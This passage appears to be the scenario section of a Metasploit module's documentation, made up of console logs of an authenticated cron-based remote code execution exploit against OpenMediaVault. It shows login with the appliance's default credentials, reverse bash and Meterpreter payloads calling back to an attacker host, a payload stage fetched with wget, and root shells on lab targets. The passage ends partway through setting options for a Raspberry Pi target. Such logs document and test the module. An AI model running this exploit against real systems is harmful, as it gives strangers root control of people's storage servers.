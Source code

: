 ```msf

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target is vulnerable. Version 7.0.pre.32
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[+] Cron payload entry successfully removed.
[*] Command shell session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60814) at 2024-07-03 12:47:54 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux openmediavault 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64 GNU/Linux
exit
```
### openmediavault_7.0-32-amd64.iso appliance Linux Dropper -  linux/x64/meterpreter/reverse_tcp
```msf
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set target 1
target => 1
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target is vulnerable. Version 7.0.pre.32
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/cYSPpwJI3FXafxL
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Client 192.168.201.6 (Wget/1.21.3) requested /cYSPpwJI3FXafxL
[*] Sending payload to 192.168.201.6 (Wget/1.21.3)
[*] Sending stage (3045380 bytes) to 192.168.201.6
[+] Cron payload entry successfully removed.
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.6:44398) at 2024-07-03 12:53:49 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : openmediavault.local
OS           : Debian 12.5 (Linux 6.1.0-18-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
###  openmediavault 7.3.0-5 ARM64 Raspberry PI-4 Unix command - cmd/unix/reverse_bash
```msf
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set target 0
target => 0
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set rhosts 192.168.1.10
rhosts => 192.168.1.10
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
```